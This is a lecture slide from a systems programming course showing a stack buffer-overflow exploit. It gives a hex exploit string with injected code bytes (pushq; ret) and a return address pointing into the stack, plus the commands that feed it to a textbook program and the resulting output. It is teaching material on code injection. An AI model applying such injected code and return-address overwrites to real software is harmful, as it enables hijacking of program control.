

# Injecting and Executing the Exploit String
back-again-string.txt
68 48 06 40 00 c3 00 00   // pushq $0x400648; ret
00 00 00 00 00 00 00 00
F8 DF FF FF FF 7F 00 00   // this return address is on the stack
textbook-code/chap11> ./hex2raw < back-again-string.txt > back-again-string.raw
textbook-code/chap11> ./a.out < back-again-string.raw
Enter a string:
Buffer at 0x7fffffffdff8
hH@
Returned to caller. Booooring.
Slide by Bohn
Programming at the Hardware/Software Interface
30